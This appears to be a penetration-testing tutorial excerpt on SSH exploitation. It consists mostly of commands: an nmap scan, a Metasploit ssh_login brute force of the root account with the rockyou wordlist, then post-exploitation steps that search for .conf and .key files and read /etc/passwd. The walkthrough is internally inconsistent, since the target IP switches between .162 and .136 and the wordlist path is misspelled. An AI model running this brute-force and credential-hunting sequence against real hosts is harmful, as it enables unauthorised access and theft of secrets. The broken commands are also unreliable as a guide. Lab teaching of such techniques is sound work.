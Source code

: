 ### SSH Exploitation Example

1. **SSH Brute Force Attack with Metasploit**:

   First, we identify an open SSH port (22/TCP) during our initial scan:

   ```bash
   nmap -p 22 192.168.74.162
   ```

Then, we prepare and execute a brute force attack using Metasploit's **ssh_login** module:

```bash
   msf6 > use auxiliary/scanner/ssh/ssh_login

   msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.168.74.136

   RHOSTS => 192.168.74.136

   msf6 auxiliary(scanner/ssh/ssh_login) > set USERNAME root

   USERNAME => root

   msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /usr/share/worslists/rockyou.txt

   PASS_FILE => /usr/share/worslists/rockyou.txt

   msf6 auxiliary(scanner/ssh/ssh_login) > set THREADS 10

   THREADS => 10

   msf6 auxiliary(scanner/ssh/ssh_login) > run

   [*] 192.168.74.162:22 - Starting bruteforce

```



   
   The attack attempts to find the correct password for the root user by trying each password from the rockyou.txt wordlist. If successful, Metasploit will establish an SSH session that can be used for further exploitation.

2. **Post-Exploitation After Successful SSH Login**:

   Once a valid credential is found, we can:

```bash
# Establish SSH session

ssh root@192.168.74.162

# Gather system information

uname -a

cat /etc/issue

# Check for sensitive files

find / -name "*.conf" -type f 2>/dev/null

find / -name "*.key" -type f 2>/dev/null

# Check for other users

cat /etc/passwd
```